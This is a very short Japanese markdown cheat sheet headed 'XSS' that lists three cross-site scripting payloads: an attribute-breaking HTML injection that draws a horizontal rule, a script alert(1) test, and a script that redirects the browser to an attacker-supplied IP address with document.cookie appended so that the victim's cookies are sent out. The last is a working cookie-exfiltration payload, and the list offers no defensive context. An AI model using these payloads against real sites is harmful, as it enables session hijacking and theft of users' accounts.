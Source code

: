 # XSS

1. `'>"><hr>`を使用して水平線を表示
2. `<script>alert(1)</script>`でアラート表示
3. `<script>document.location="http://[ip address]/" + document.cookie</script>`でクッキーを外部に送信
